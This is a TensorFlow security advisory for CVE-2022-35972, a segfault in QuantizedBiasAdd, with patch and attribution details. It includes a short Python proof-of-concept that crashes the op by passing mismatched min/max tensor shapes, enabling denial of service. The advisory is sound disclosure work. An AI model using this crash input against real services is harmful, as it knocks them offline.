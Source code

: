 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-105.md
## TFSA-2022-105: Segfault in `QuantizedBiasAdd`

### CVE Number
CVE-2022-35972

### Impact
If `QuantizedBiasAdd` is given `min_input`, `max_input`, `min_bias`, `max_bias` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

out_type = tf.qint32
input = tf.constant([85,170,255], shape=[3], dtype=tf.quint8)
bias = tf.constant(43, shape=[2,3], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
min_bias = tf.constant(0, shape=[1], dtype=tf.float32)
max_bias = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedBiasAdd(input=input, bias=bias, min_input=min_input, max_input=max_input, min_bias=min_bias, max_bias=max_bias, out_type=out_type)
```

### Patches
We have patched the issue in GitHub commit [785d67a78a1d533759fcd2f5e8d6ef778de849e0](https://github.com/tensorflow/tensorflow/commit/785d67a78a1d533759fcd2f5e8d6ef778de849e0).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
